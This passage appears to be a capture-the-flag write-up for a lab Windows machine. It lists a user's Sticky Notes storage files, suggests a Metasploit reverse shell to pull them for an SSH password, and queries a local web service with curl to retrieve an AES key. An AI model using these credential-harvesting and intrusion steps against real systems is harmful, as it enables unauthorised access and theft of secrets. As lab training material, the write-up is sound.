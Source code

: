 ```sh
juliette@BREADCRUMBS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState>dir
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

01/15/2021  04:10 PM    <DIR>          .
01/15/2021  04:10 PM    <DIR>          ..
01/15/2021  04:10 PM            20,480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
11/29/2020  03:10 AM             4,096 plum.sqlite
01/15/2021  04:10 PM            32,768 plum.sqlite-shm
01/15/2021  04:10 PM           329,632 plum.sqlite-wal
               4 File(s)        386,976 bytes
               2 Dir(s)   6,313,762,816 bytes free
```

You can use Metasploit to have a revshell & download the files.
Get all notes then ssh as development with password in note.

## Development

Go to C:\Development

The "Krypter_Linux" binary contains information that may be of interest to us, so to see that we will use ida.

![hack](https://media.discordapp.net/attachments/490431433559506954/823468108772933642/unknown.png)

Inside there is a command and you can see what it does when you do it "

```sh
http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords 
```

curl url :

```sh
PS C:\Development> curl http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords


StatusCode        : 200                                                                                               
StatusDescription : OK                                                                                                
Content           : selectarray(1) {                                                                                  
                      [0]=>                                                                                           
                      array(1) {                                                                                      
                        ["aes_key"]=>                                                                                 
                        string(16) "k19D193j.<19391("                                                                 
                      }                                                                                               
                    }
```

